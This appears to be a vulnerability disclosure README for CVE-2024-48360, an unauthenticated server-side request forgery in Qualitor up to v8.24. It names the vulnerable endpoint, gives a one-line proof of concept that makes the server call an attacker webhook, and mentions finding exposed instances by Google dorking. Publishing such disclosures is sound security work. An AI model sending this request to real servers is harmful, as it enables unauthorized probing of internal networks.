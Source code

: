 # CVE-2024-48360 | Qualitor <= v8.24 Unauthenticated SSRF
CVE-2024-48360 | Qualitor <= v8.24 Unauthenticated SSRF

## Description
Qualitor is a platform for business process management, and this system is present in various companies in Brazil that can be identified simply by using Google dorking.

Our team identified a vulnerability in the application susceptible to SSRF, which allows enumerate internal systems/ports.

## Proof of Concept (POC)
Qualitor v8.24 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /request/viewValidacao.php.

To exploit, just send a request to host.com/html/ad/adformmobile/request/viewValidacao.php?url=ATTACKER_WEBHOOK, you will receive the request from vulnerable server.

![image](https://github.com/user-attachments/assets/c7f3dd6f-759d-430c-a135-fdc01e802619)


### Researches
https://www.linkedin.com/in/xvinicius/


- OpenXP Research Team
